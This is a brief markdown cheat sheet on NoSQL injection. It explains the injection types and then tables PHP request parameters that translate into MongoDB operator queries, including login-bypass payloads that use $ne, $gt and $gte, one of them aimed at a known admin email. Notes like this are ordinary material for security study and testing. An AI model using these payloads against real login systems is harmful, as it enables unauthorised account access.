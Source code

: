 # NoSQL
## Types of injections
- **In-Band** - the attacker can use the same channel of communication to exploit a NoSQL injection and receive the results
- **Blind** - This is when the attacker does not receive any direct results from the NoSQL injection, but they can infer results based on how the server responds
- **Boolean** - Boolean-based is a subclass of blind injections, which is a technique where attackers can force the server to evaluate a query and return one result or the other if it is True or False
- **Time-Based** - Time-based is the other subclass of blind injections, which is when attackers make the server wait for a specific amount of time before responding, usually to indicate if the query is evaluated as True or False

## PHP Syntax
|PHP query|Mongo Query|Description|
|-|-|-|
|`param[$op]=val`|`param: {$op: val}`||
|`email[$ne]=test@test.com`|`email: {$ne: "test@test.com"}`||
|`email=admin%40mangomail.com&password[$ne]=x`|`$and:[{email:"admin@mangomail.com"}, {password: {$ne: x}}]`|This assumes we know the admin's email and we wanted to target them directly|
|`email[$gt]=&password[$gt]=`|`$and: [{email: {$gt:0}}, {password: {$gt:0}}]`|Any string is 'greater than' an empty string|
|`email[$gte]=&password[$gte]=`|`$and: [{email: {$gte:0}}, {password: {$gte:0}}]`|Any string is 'greater than' an empty string|

## NoSQL queries
|Query|Description|
|-|-|
|`name: {$ne: 'doesntExist'}`|Assuming doesntExist doesn't match any documents' names, this will match all documents|
